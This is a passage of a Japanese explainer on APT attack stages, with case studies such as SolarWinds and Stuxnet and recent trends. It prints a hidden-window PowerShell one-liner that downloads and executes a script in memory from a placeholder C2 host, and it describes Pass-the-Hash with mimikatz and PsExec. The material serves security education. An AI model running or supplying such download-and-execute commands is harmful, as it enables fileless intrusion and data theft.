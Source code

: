 ***

この例では、受信者の実名や会社名を記載し、業務に関連性の高い内容でファイル開封を促します。添付ファイルには、脆弱性を悪用するマクロやスクリプトが埋め込まれています。

**【実行 (Execution) と永続化 (Persistence)】**

ファイルが開かれると、PowerShellなどの正規のツールが悪用され、攻撃コードが実行されます。これは「**Living off the Land (LotL)**」と呼ばれ、OSに標準搭載された機能を使うため、セキュリティ製品による検知が難しいのが特徴です。

***
**具体的なコード例：PowerShellによるファイルレス攻撃**

```powershell
# 悪意のあるスクリプトをWebからダウンロードし、メモリ上で直接実行するコマンドの例
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://attacker-c2-server.com/payload.ps1')"
```

このコマンドは、ウィンドウを非表示にし（`-w hidden`）、C2サーバーから`payload.ps1`というスクリプトをダウンロードして、ディスクに保存することなく直接実行（`IEX`）します。 これにより、ファイルベースのスキャンを回避します。

**【権限昇格 (Privilege Escalation) と横展開 (Lateral Movement)】**

侵入した端末で一般ユーザーの権限しか得られなかった場合、攻撃者は管理者権限の奪取を試みます。その後、ネットワーク内の他の端末へと侵入を広げていきます。代表的な手法に「**Pass-the-Hash (PtH)**」があります。

Windows環境では、ユーザーがログオンするとパスワードそのものではなく、パスワードをハッシュ化した値（ハッシュ値）がメモリ上に保存されます。 PtH攻撃は、このメモリ上にあるハッシュ値を窃取し、それを他の端末への認証に再利用する手法です。 パスワード自体を解読する必要がないため、効率的に横展開を進めることが可能です。

***
**攻撃の流れ（Pass-the-Hash）**

1.  攻撃者は、何らかの方法で最初の端末に侵入し、`mimikatz`のようなツールを使ってメモリから管理者アカウントのパスワードハッシュを窃取します。
2.  窃取したハッシュ値を使い、`PsExec`などの正規のリモート管理ツールを悪用して、ネットワーク内のファイルサーバーやドメインコントローラーに管理者としてログオンします。
3.  目的のサーバーに侵入成功後、さらに内部を探索し、機密データを探します。

**【目的の達成 (Actions on Objectives)】**

最終段階では、収集した機密データを圧縮・暗号化して一つのファイルにまとめ、C2サーバーへ送信します。この際、通常のWebトラフィック（HTTP/HTTPS）に偽装するなどして、データが外部へ送信されていることを悟られないようにします。

### 第3章: 現実世界のAPT攻撃 - 注目すべき事例

*   **日本年金機構 情報流出事件 (2015年)**: 職員が標的型攻撃メールの添付ファイルを開封したことがきっかけでマルウェアに感染。約125万件の個人情報が流出したとされています。APT攻撃の脅威が国内で広く認知される契機となりました。
*   **SolarWinds社サプライチェーン攻撃 (2020年)**: 攻撃者（APT29など）は、ネットワーク管理ソフトウェア「Orion」を開発するSolarWinds社の開発環境に侵入。Orionのアップデートプログラムにバックドアを仕込み、そのアップデートを適用した世界中の約18,000の組織（政府機関や大企業を含む）にマルウェアを拡散させました。自社のセキュリティが強固でも、取引先や利用するソフトウェアが攻撃される「サプライチェーン攻撃」の典型例です。
*   **Stuxnet (2010年頃)**: イランの核施設を標的としたAPT攻撃。遠心分離機を制御する特定の産業用制御システム（ICS）のみを狙い、物理的に破壊することを目的としていました。サイバー攻撃が物理的なインフラに直接的な損害を与えた画期的な事例とされています。

### 第4章: 近年のAPT攻撃のトレンドと進化

*   **サプライチェーン攻撃の常態化**: SolarWinds社の事例のように、セキュリティレベルが比較的低い取引先やソフトウェア開発会社を足がかりに、本来の標的である大企業や政府機関へ侵入するサプライチェーン攻撃が主流になっています。
*   **クラウド環境へのシフト**: 企業のクラウド利用拡大に伴い、攻撃者の標的もクラウド環境へと移行しています。設定ミスのあるクラウドストレージからの情報窃取や、クラウドサービスの認証情報を狙った攻撃が増加しています。
*   **Living off the Land (LotL) の巧妙化**: PowerShellだけでなく、WMI (Windows Management Instrumentation) やcertutilなど、悪用可能な正規ツールは多岐にわたります。 これらのツールはシステム管理に不可欠なため、単純に機能を無効化することが難しく、異常な振る舞いを検知する高度な監視が求められます。
*   **地政学的リスクとの連動**: 国家間の対立や紛争が激化すると、それに連動して相手国の重要インフラや企業を狙ったAPT攻撃が増加する傾向にあります。中国を拠点とするとされる「Volt Typhoon」のような攻撃グループが、米国の重要インフラに長期間潜伏していた事例も報告されています。

